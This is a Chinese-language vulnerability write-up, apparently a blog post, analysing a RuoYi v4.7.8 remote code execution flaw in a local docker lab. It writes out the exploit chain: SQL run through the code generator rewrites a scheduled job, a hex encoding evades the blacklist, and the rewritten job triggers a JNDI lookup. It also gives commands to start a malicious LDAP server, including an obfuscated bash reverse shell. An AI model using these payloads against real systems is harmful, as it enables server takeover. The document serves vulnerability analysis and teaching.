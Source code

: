 ```yaml
---
title: RuoYi_v4.7.8_RCE
date: 2024-04-10 18:53:00 +0800
img_path: /
categories: [肾透, 代码审计]
tags: [肾透, 代码审计]     

---
```


# RuoYi_v4.7.8_RCE

## 1 漏洞简介

RuoYi是一个后台管理系统，基于经典技术组合（Spring Boot、Apache Shiro、MyBatis、Thymeleaf）主要目的让开发者注重专注业务，降低技术难度，从而节省人力成本，缩短项目周期，提高软件安全质量。

后台定时任务可通过`genTableServiceImpl.createTable(sql)`执行`sql`语句修改表内容，通过修改`sys_job`定时任务表的内容从而将恶意的定时任务写入从而实现`JNDI`注入`RCE`。

## 2 影响范围

RuoYi<=4.7.8

## 3 环境搭建

### 3.1 导入docker image

```bash
docker load -i polarvul_ruoyi_4.7.8_rce.tar
```

### 3.2 启动容器

```bash
docker run -d --name ruoyi -p8080:80 ruoyi_4.7.8_rce:polarvul
```

## 4 漏洞分析

在增加定时任务时做了许多判断采用了白+黑的方式防止增加恶意调用的定时任务。

![image-20240408205552296](assets/image-20240408205552296.png)

从`RuoYi v4.7.3` 开始添加定时任务时采用了白名单，只能调用`com.ruoyi`包下的类。

![image-20240408205330301](assets/image-20240408205330301.png)

但是对恶意类的过滤仅仅只是在增加定时任务和编辑定时任务时，运行时并没有判断是否为恶意调用。

![image-20240408210157236](assets/image-20240408210157236.png)

并且定时任务的信息其实是储存在数据库中的。

![image-20240408210336402](assets/image-20240408210336402.png)

所以说，如果能够直接修改数据库中的内容，那么绕过了过滤。

在`com.ruoyi.generator.controller.GenController#create`中

![image-20240408210809527](assets/image-20240408210809527.png)

这块直接调用了`genTableService.createTable()`：

![image-20240408211015431](assets/image-20240408211015431.png)

![image-20240408211108830](assets/image-20240408211108830.png)

这里可以执行`sql`语句，并且是在`com.ruoyi`包下的类，所以可以通过这个点修改数据库中`sys_job`表中的内容。

```bash
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target =0x6a617661782e6e............ WHERE job_id = 1;')
```

其中`0x6a61766...`是下方的十六进制，因为创建定时任务时不能存在黑名单中的字符串，采用十六进制形式绕过。

```bash
javax.naming.InitialContext.lookup('ldap://127.0.0.1:1389/deserialCommonsBeanutils1')
```

创建成功：

![image-20240408211752742](assets/image-20240408211752742.png)

点击后面更多操作运行一次后，即可更改`job_id`为1的定时任务为恶意的定时任务。

![image-20240408211955819](assets/image-20240408211955819.png)

定时任务触发JNDI的流程如下：

运行定时任务时进入`/run`路由下的`run`方法

![image-20240410144533083](assets/image-20240410144533083.png)

然后根据`JobId`获取到数据库中的定时任务。

![image-20240410144753059](assets/image-20240410144753059.png)

在`triggerJob()`方法中：

![image-20240410194841005](assets/image-20240410194841005.png)

随后进入`jobScheduled()`方法：

![image-20240410195202833](assets/image-20240410195202833.png)

当来到`JobInvokeUtil`包下的`invokeMethod(SysJob sysJob)`方法时，在该方法中会获取`bean`，`methodName`，`methodParams`。

![image-20240410195457142](assets/image-20240410195457142.png)

随后就进入`invokeMethod(Object bean, String methodName, List<Object[]> methodParams)`，到这里因为各个参数我们都可控所以很明显存在`JNDI`注入漏洞。

```java
        InitialContext initialContext1 = new InitialContext();
        // 使用反射获取 lookup 方法
        Method lookupMethod = InitialContext.class.getMethod("lookup", String.class);
        // 调用 lookup 方法获取远程对象代理
        Object object1 = lookupMethod.invoke(initialContext, "ldap://127.0.0.1:6666/calc");
```

![image-20240410200150718](assets/image-20240410200150718.png)

## 5 漏洞复现

启动恶意的LDAP服务：

```bash
# 弹计算器
java -jar JNDI-Injection-Exploit-Plus-2.4-SNAPSHOT-all.jar -C "calc" -A "127.0.0.1"
```

```bash
# 反弹Shll
java -jar JNDI-Injection-Exploit-Plus-2.4-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+Ji.....}|{base64,-d}|{bash,-i}" -A "127.0.0.1"
```

通过定时任务sql注入修改数据库中储存的计划任务：

```java
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target =0x6a617661782e6e............ WHERE job_id = 1;')
```

![image-20240410202746531](assets/image-20240410202746531.png)

执行后即可触发漏洞。

![image-20240410202844076](assets/image-20240410202844076.png)


